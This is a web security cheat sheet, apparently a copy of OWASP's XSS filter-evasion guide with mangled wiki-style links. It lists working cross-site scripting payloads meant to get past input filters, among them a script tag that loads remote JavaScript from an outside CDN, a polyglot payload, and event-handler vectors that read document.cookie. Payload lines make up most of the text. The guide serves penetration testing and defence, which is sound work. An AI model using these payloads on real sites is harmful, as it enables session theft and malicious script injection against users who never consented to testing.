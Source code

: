 ### Tests¶
This cheat sheet demonstrates that input filtering is an incomplete defense for XSS by supplying testers with a series of XSS attacks that can bypass certain XSS defensive filters.
#### Basic [[_content/dictionary#X|XSS]] Test Without Filter Evasion¶
This attack, which uses normal XSS [[_content/dictionary#J|JavaScript]] injection, serves as a baseline for the cheat sheet (the quotes are not required in any modern browser so they are omitted here):
- <[[_content/dictionary#S|SCRIPT]] [[_content/dictionary#S|SRC]]=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>

#### [[_content/dictionary#X|XSS]] Locator (Polyglot)¶
This test delivers a 'polyglot test XSS payload' that executes in multiple contexts, including [[_content/dictionary#H|HTML]], script strings, [[_content/dictionary#J|JavaScript]], and URLs:
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>

(Based on this [tweet](https://twitter.com/garethheyes/status/997466212190781445) by [Gareth Heyes](https://twitter.com/garethheyes)).
#### Malformed A Tags¶
This test skips the [href](https://developer.mozilla.org/en-[[_content/dictionary#U|US]]/docs/Web/[[_content/dictionary#H|HTML]]/Element/a#href) attribute to demonstrate an [[_content/dictionary#X|XSS]] attack using event handlers:
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>

Chrome automatically inserts missing quotes for you. If you encounter issues, try omitting them and Chrome will correctly place the missing quotes in URLs or scripts for you:
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>

(Submitted by David Cross, Verified on Chrome)
#### Malformed [[_content/dictionary#I|IMG]] Tags¶
This [[_content/dictionary#X|XSS]] method uses the relaxed rendering engine to create an XSS vector within an IMG tag (which needs to be encapsulated within quotes). We believe this approach was originally meant to correct sloppy coding and it would also make it significantly more difficult to correctly parse [[_content/dictionary#H|HTML]] tags:
<IMG """><[[_content/dictionary#S|SCRIPT]]>alert("XSS")</SCRIPT>"\>

(Originally found by Begeek, but it was cleaned up and shortened to work in all browsers)
#### fromCharCode¶
If the system does not allow quotes of any kind, you can eval() a fromCharCode in [[_content/dictionary#J|JavaScript]] to create any [[_content/dictionary#X|XSS]] vector you need:
<a href="javascript:alert(String.fromCharCode(88,83,83))">Click Me!</a>

#### Default [[_content/dictionary#S|SRC]] Tag to Get Past Filters that Check SRC Domain¶
This attack will bypass most SRC domain filters. Inserting [[_content/dictionary#J|JavaScript]] in an event handler also applies to any [[_content/dictionary#H|HTML]] tag type injection using elements like Form, Iframe, Input, Embed, etc. This also allows the substitution of any relevant event for the tag type, such as onblur or onclick, providing extensive variations of the injections listed here:
<[[_content/dictionary#I|IMG]] SRC=# onmouseover="alert('xxs')">
